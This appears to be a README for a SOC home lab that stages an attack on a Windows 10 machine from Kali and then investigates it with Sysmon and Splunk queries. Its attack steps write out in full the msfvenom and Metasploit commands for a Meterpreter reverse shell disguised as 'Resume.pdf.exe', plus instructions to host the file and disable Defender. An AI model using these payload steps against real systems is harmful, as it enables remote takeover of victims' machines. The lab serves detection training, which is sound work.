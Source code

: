 # Lab in Action – SOC Home Lab

## Overview
This document explains the execution phase of the SOC home lab using **Kali Linux** and **Windows 10 Pro**.  
The goal is to simulate an attack–defense scenario where we:
- Perform reconnaissance and exploitation from Kali.
- Deliver and execute malware on Windows.
- Monitor and investigate events using **Sysmon + Splunk**.

A PDF file with screenshots is provided alongside this README for visual reference.

---

## Steps

### 1. Reconnaissance
- From **Kali Linux**, run an Nmap scan against the Windows target:
  ```nmap 192.168.20.10```
- Port 3389 (RDP) should appear open. NOTE: If it doesn't appear open, we need to activate Remote Desktop on our Windows machine.

### 2. Malware Creation with msfvenom
- On Kali, generate a payload:
```msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.20.11 LPORT=4444 -f exe -o Resume.pdf.exe```
- LHOST = Kali IP
- LPORT = Listening port (example: 4444)

### 3. Starting Metasploit
- Launch Metasploit:
```metasploit```
- Use the multi-handler:
```
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST 192.168.20.11
set LPORT 4444
run
```

### 4. Hosting the Malware
- Start a simple web server in Kali to share the payload:
```python3 -m http.server 9999```
- Windows will later connect to Kali on port 9999 to retrieve the file.

### 5. Defender-Side Preparation
- On Windows 10 Pro (or your version of Windows), disable Windows Defender (to allow file execution).
- From the browser, navigate to:
```http://192.168.20.11:9999/Resume.pdf.exe```
- Download and execute the file (a warning will appear; proceed for the test).

### 6. Verifying the Connection
- Back in Kali, confirm the meterpreter session is opened.
- Test with some commands (sysinfo, ipconfig) to validate shell access.
- In Windows Task Manager, you should see Resume.pdf.exe running.

### 7. Splunk & Sysmon Analysis
- Open Splunk on Windows (http://localhost:8000).
- Search for Sysmon logs:
```index=endpoint```
- Look for:
  - Source IP (Kali machine).
  - Destination ports scanned/used.
  - Process events triggered by the payload (Resume.pdf.exe).
**Example Investigations**
- Check ports targeted:
```index=endpoint dest_ip=192.168.20.10 | stats count by dest_port```
- Search for the malware process:
```index=endpoint Image="*Resume.pdf.exe"```
- Filter EventCode 1 (Process Create):
```index=endpoint EventCode=1```
Expand logs to view Parent Process and CommandLine execution.
- Use the Process GUID to pivot and track all related child processes (e.g., malware spawning cmd.exe).

## Notes
- A PDF version of this lab with full screenshots is included in this repository for visual reference.
- Use the PDF when following along if you prefer to see exact UI examples.

## Disclaimer
- This lab is for educational purposes only.
- All testing was performed in a controlled, isolated environment.
